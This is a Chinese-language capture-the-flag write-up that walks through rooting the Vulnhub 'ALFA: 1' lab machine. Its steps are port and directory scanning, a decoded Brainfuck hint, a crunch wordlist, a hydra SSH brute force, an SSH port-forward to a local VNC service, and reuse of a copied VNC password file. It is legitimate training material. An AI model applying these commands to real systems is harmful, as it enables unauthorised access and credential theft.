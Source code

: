 ```yaml
---
title: 'Vulnhub ALFA: 1'
typora-root-url: Vulnhub-ALFA-1
abbrlink: 29204
date: 2021-03-21 18:19:02
tags: 
	- Vulnhub
	- "ALFA: 1"
categories: 
  - 渗透靶机训练
description: "Vulnhub ALFA: 1"
excerpt: "Vulnhub ALFA: 1"
---
```


# ALFA: 1

## USER FLAG

### 端口探测

使用nmap扫一下开放的端口：

```bash
nmap -sC -sV -A -p- -T5 192.168.145.132
```

得到以下关键信息：

![image-20210321182509791](image-20210321182509791.png)

### FTP

由于服务器启用了ftp服务，连接上去看看。

得到以下内容：

![image-20210321182635487](image-20210321182635487.png)

这里可以猜测用户名就是thomas，确认一下，使用**enum4linux**来确认一下：

```bash
enum4linux -a -r 192.168.145.132
```

获取到关键信息：

![image-20210321183644637](image-20210321183644637.png)

可以确信thomas即为用户名。

### Web

服务器亦有80端口的HTTP服务，使用浏览器访问：

![image-20210321182729719](image-20210321182729719.png)

查看源代码，发现所有超链接均为锚点。

至此从HTML代码中寻找思路显然不可取了，扫描一下WebPath。

使用**nikto**扫描：

```bash
nikto -h 192.168.145.132
```

![image-20210321183854605](image-20210321183854605.png)

未获取到关键信息，再使用**dirb**扫描：

```bash
dirb http://192.168.145.132/
```

发现关键信息：

![image-20210321184005002](image-20210321184005002.png)

Web服务器下有robots.txt，访问得到：

![image-20210321184036371](image-20210321184036371.png)

滑动至最低端，发现有一字符串：

```brainfuck
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>+++++++++++++++++.>>---.+++++++++++.------.-----.<<--.>>++++++++++++++++++.++.-----..-.+++.++.
```

> 解码地址：[https://www.dcode.fr/brainfuck-language](https://www.dcode.fr/brainfuck-language)

经搜索，此为Brainfuck编码，将其解码得到：

```http
/alfa-support
```

访问该路径。

得到以下信息：

![image-20210321184337802](image-20210321184337802.png)

发现关键信息：**I only remember that it is the name of my pet followed by numerical digits**。

至此，Web上能获取的信息已经全部获取完了。

### SSH

之前nmap扫描的结果显示服务器再65111端口上开放了SSH服务。

考虑到使用enum4linux确定Thomas是一个服务器用户，并且密码是宠物的名字+三个数字，联系到FTP服务器上的图片内容为一只狗，名字为milo，可以猜测Pet's name 为milo，使用**crunch**生成一个字典。

```bash
crunch 7 7 1234567890 -t milo%%% -o wordlist
```

字典生成完成后使用**hydra**爆破ssh。

```bash
hydra -l thomas -P wordlists ssh://192.168.145.132:65111 -t 64
```

爆破成功，结果如图：

![image-20210321185006788](image-20210321185006788.png)

使用SSH登录服务器：

```bash
ssh thomas@192.168.145.132 -p 65111
```

成功登录服务器，发现USER的FLAG。

![image-20210321185202074](image-20210321185202074.png)

至此，还有ROOT FLAG未拿到。

## ROOT FLAG

在上面的基础上，发现一个文件所属用户为root：

![image-20210321185535601](image-20210321185535601.png)

查看文件内容发现为乱码：

![image-20210321185603702](image-20210321185603702.png)

根据其名字联想应该是加密后的密码。

未知其作用，暂且搁置，查看一下系统监听的TCP端口：

```bash
ss -tlpn
```

![image-20210321190104133](image-20210321190104133.png)

发现系统监听了本地5901端口。

不知道这是什么服务，nmap之前也没有该端口的信息，考虑可能未对外开放，利用ssh正向代理建立一个代理隧道：

```
ssh -L 0.0.0.0:5901:127.0.0.1:5901 thomas@192.168.145.132 -p 65111
```

检查隧道状态：

![image-20210321190643617](image-20210321190643617.png)

状态正常，这个时候再使用nmap扫描一次，由于代理隧道建立，我们只需要扫描本机的5901端口即可等同于扫描服务器的5901端口：

```bash
nmap -sC -sV -p5901 localhost
```

![image-20210321190839159](image-20210321190839159.png)

发现这是一个VNC端口，想到之前看到的**\.remote_secret**文件，猜测该文件便是加密后的密码。

从服务器中下载该文件到本地：

```bash
scp -P 65111 thomas@192.168.145.132:/home/thomas/.remote_secret .remote_secret
```

![image-20210321191006651](image-20210321191006651.png)

使用该文件作为VNC密码登录服务器：

```bash
vncviewer -passwd .remote_secret 127.0.0.1:5901
```

成功拿到ROOT FLAG：

![image-20210321191231180](image-20210321191231180.png)

